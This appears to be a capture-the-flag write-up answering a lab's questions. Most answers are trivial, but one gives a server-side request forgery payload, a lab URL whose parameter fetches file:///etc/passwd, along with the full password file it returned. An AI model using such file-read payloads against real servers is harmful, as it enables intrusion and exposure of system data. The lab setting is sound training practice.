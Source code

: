 2. Hint 2

`No answer needed`

3. Hint 3

`No answer needed`

4. Hint 4

`No answer needed`

5. Hint 5

`No answer needed`

6. Hint 6

`No answer needed`

7. Hint 7

`No answer needed`

8. How many ports are open?

`5`

9.  How many users are there on the system?

[view-source:http://10.10.33.98:8000/attack?url=file%3A%2F%2F%2Fetc%2Fpasswd](view-source:http://10.10.33.98:8000/attack?url=file%3A%2F%2F%2Fetc%2Fpasswd)

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
falcon:x:1000:1000:falcon,,,:/home/falcon:/bin/bash
feast:x:1001:1001:,,,:/home/feast:/bin/bash
falconfeast:x:1002:1002:,,,:/home/falconfeast:/bin/bash
```
